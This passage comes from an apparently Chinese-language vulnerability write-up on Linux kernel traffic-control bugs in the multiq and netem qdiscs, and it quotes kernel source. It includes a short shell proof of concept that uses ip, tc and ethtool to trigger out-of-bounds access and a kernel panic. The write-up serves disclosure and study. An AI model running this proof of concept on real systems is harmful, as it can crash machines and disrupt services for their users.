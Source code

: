 ```c
        if (q->queues[i] != &noop_qdisc) {
            // [...]
            removed[n_removed++] = child; // [6]
        }
    }

    // the max value of "n_removed" is (q->max_bands - qopt->bands)
    // but the length of removed[] is (q->max_bands - q->bands)
    for (i = 0; i < n_removed; i++) // [7]
        qdisc_put(removed[i]); // [8]
    kfree(removed);
    
    // [...]
}
```

透過 user space built-in network manage tools，我們可以構造出一個能觸發 oob access 並造成 kernel panic 的 POC。

```bash
#!/bin/sh

# 1. 設定 device "veth0 tx / rx 大小為 50
ip link add veth0 numtxqueues 50 numrxqueues 50 type veth peer numtxqueues 50 numrxqueues 50 name veth1 

# 2. 一開始有 50 個 real tx
tc qdisc add dev veth0 root handle 1: multiq 

# 3. 更新 real tx 成 8 個
ethtool -L veth0 rx 8 tx 8

# 4. 上次 (50) > 這次 (8)，造成 oob access
tc qdisc change dev veth0 root handle 1: multiq
```



## 4. (CVE-2024-XXXXX) netem: fix return value if duplicate enqueue fails
> 該漏洞還沒發佈 CVE，待發布後會更新上來

這個漏洞的成因比上個 (CVE-2024-36978) 複雜不少，是一個非常有趣的邏輯洞，需要對 network scheduling 有一定的了解才能找到。如果直接看 [commit message](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c07ff8592d57ed258afee5a5e04991a48dbaf382)，大概只能得到：qdisc netem 的 duplicate packet 功能會造成 UAF 的結論。

我們先從 netem (Network emulator) 的 `struct Qdisc_ops` object 開始分析。

```c
static struct Qdisc_ops netem_qdisc_ops __read_mostly = {
    .id          =    "netem",
    .cl_ops      =    &netem_class_ops,
    .priv_size   =    sizeof(struct netem_sched_data),
    .enqueue     =    netem_enqueue,
    .dequeue     =    netem_dequeue,
    .peek        =    qdisc_peek_dequeued,
    .init        =    netem_init,
    .reset       =    netem_reset,
    .destroy     =    netem_destroy,
    .change      =    netem_change,
    .dump        =    netem_dump,
    .owner       =    THIS_MODULE,
};
```

